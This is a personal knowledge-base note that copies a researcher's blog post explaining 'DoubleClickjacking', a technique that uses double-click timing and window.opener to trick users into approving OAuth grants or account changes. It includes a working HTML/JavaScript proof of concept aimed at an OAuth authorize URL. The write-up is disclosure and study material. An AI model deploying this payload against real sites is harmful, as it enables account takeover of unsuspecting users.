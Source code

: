```yaml
---
author: Blog
aliases:
  - "DoubleClickjacking: A New Era of UI Redressing"
  - DoubleClickjacking
tags:
  - readwise/articles
url: https://www.paulosyibelo.com/2024/12/doubleclickjacking-what.html?__readwiseLocation=
date: 2025-04-01
summary: DoubleClickjacking is a new type of attack that tricks users into unintentionally authorizing malicious actions by exploiting the timing of double-clicks. Unlike traditional clickjacking, this method can bypass existing protections and affect many major websites. It can lead to serious issues like account takeovers and unauthorized changes to user settings.
---
```

# DoubleClickjacking: A New Era of UI Redressing

![rw-book-cover](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEguGmhrd0CL2DZf_1AUpRuyxGq2u-4iThnd64mHOgFe6cLMpRE3UzL8qW8dkb4wgfIgVcPGbisBWuqM8WzU7kSdYdyTTq4vTx2SiH3hO-RgUeSvRENFBMB3CzcFBhfOqha17Ona4gnLcbD4KsE2Wyy0_YfbG8Af6iYnIphO_4le7BrYgwzvgKVEXT8FGzzy/s16000/Screenshot%202024-12-30%20at%208.53.06%E2%80%AFPM.png)


[Clickjacking](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Clickjacking.md) is becoming less practical as modern browsers set all cookies to “SameSite: Lax” by default [^1]. [](https://read.readwise.io/read/01jpympafdzagwks0x135y58y9)

This significantly reduces the risk of successful clickjacking attacks, as most interesting functionality on websites typically requires authentication. [](https://read.readwise.io/read/01jpymqbbah3rsj70jb77vq3e3)

**DoubleClickjacking** is a new variation on this classic theme: [^2] instead of relying on a single click, it takes advantage of a double-click sequence. [](https://read.readwise.io/read/01jpymra27av4x1ykk4y8fp6xh)
This opens the door to new UI manipulation attacks that bypass all known clickjacking protections, including the `X-Frame-Options` header, CSP's `frame-ancestors` and `SameSite: Lax/Strict` cookies. [](https://read.readwise.io/read/01jpymsmbzmbm9evfrrr46qch3)

## Root Cause

DoubleClickjacking exploits a timing and event-order quirk: [](https://read.readwise.io/read/01jpymtmq34dfckdkrskj24zhb)

1. The attacker creates an initial webpage with a button that opens a new window (or just opens a new window without user interaction).
2. When the user clicks this button:
	- A new window opens on top, asking the user to “double-click.”
	- This new window immediately uses window.opener.location to change the parent window’s location to the target page.
	- The parent window now contains the target page (e.g., OAuth authorization), while the top window still shows the double-click prompt.
3. When the user attempts the requested double-click:
	- The first click (triggered on mousedown) causes the top window to close.
	- The second click lands on the now-exposed authorization button in the parent window.
	- The user unknowingly authorizes the attacker’s application into their account with arbitrary scope.

![](attachments/double-clickjacking.png)

DoubleClickjacking leverages the small gap between the **start** of a click and the **end** of the second click in multiple windows [](https://read.readwise.io/read/01jpyn12cbeh9raevtqatcjy4s)

Attackers load (or open) a new window for a legitimate seeming reason—like a “captcha verification,” for example. Then, just before the second click is pressed, the malicious site can quickly swap in a more sensitive window from the same browser session (e.g., an OAuth authorization prompt), effectively hijacking that second click. [](https://read.readwise.io/read/01jpyn21qh7vyejcae35erzt29)

There are many ways to perform the “swap,” the most reliable and smooth method I found uses `window.open.location`. [](https://read.readwise.io/read/01jpyn2cx63599skrhzkwp9e97)

One of the important pieces of this attack is exploiting the timing difference between `mousedown` and `onclick` events (favoring `mousedown` over `click`). The `mousedown` event fires immediately when the user presses the mouse button, while the `click` event waits for the complete click action so there is a few ms of delay we can siphon for the attack. [](https://read.readwise.io/read/01jpyn3wv558feb2w33nrdsfy1)

## Exploitation

**How It Can Be Exploited**
- **OAuth & API Permissions**: Attackers could trick targets into authorizing a malicious application with extensive privileges. This technique has unfortunately led to account takeovers in almost every site that supports [OAuth 2.0](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/OAuth%202.0.md) - which is pretty much all major websites with an API support. [](https://read.readwise.io/read/01jpyn5vdmwfjpt6h6hmmanpw7)

- **One-Click Account Changes**: Similar to classic clickjacking, DoubleClickjacking can be used to make the user click on account-setting changes, such as disabling security settings, deleting an account, authorizing access or money transfers, or confirming transactions, etc. [](https://read.readwise.io/read/01jpyn6fye27pt0t2xejmsjx1a)

### PoC

Below is a code snippet that can be used to create a PoC for this vulnerability class: [](https://read.readwise.io/read/01jpyn6twhhj0pwk65vjdmae5y)

```html
<script>
function openDoubleWindow(url, top, left, width, height) {
    var evilWindow = window.open(window.location.protocol+"//"+
  		window.location.hostname+":"+
  		window.location.port+"/random", 
  	"_blank");

    evilWindow.onload = function() {
        evilWindow.document.open();

        //plugs the page to be hijacked as opener returnee
        evilWindow.document.write(`
            <script>
            setTimeout(function() { 
                opener.location = "${url}"; 
            }, 1000);

            </scri`+`pt>
            
            <div id="doubleclick" type="button" class="button" 
                style="top: ${top}px; left: ${left}px; width: ${width}px; height: ${height}px; position: absolute; font-size: 16px; color: white; background-color: #3498db; box-shadow: 5px 5px 10px rgba(0, 0, 0, 0.3); display: flex; justify-content: center; align-items: center; font-weight: bold; text-shadow: 1px 1px 2px rgba(0, 0, 0, 0.3); cursor: pointer; border-radius: 20px; text-align: center; padding: 0 5px; transition: all 0.3s ease;" onmouseover="this.style.backgroundColor='#2980b9'; this.style.boxShadow='6px 6px 12px rgba(0, 0, 0, 0.4)'; this.style.transform='scale(1.05)';" 
                onmouseout="this.style.backgroundColor='#3498db'; this.style.boxShadow='5px 5px 10px rgba(0, 0, 0, 0.3)'; this.style.transform='scale(1)';">Double Click Here</div>
<script>
      document.getElementById('doubleclick').addEventListener('mousedown', function() {
       window.close();
       });
       </scr`+`ipt>`);
        
        evilWindow.document.close();
    };
}
</script>

<!-- Replace value's below with the URL and top, left, width, height of a button you want to doublejack with -->

<button onclick="openDoubleWindow('https://target.com/oauth2/authorize?client_id=attacker',647, 588.5, 260, 43)">Start Demo</button>
```

This can also be done in mobile phones by asking target to "DoubleTap". [](https://read.readwise.io/read/01jpyqjdtx7kxsgq0839ap69vn)

P.S: Note that windows can be opened on top of the whole browser (instead of as a tab), hiding the fact that the opener has changed location (and all tabs) [](https://read.readwise.io/read/01jpyqm9qemex41pp8gewhf144)

[^1]: [SameSite Cookie Attribute](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/SameSite%20Cookie%20Attribute.md)

[^2]: [Pierluigi Paganini - DoubleClickjacking Allows Clickjacking on Major Websites](Pierluigi%20Paganini%20-%20DoubleClickjacking%20Allows%20Clickjacking%20on%20Major%20Websites.md)

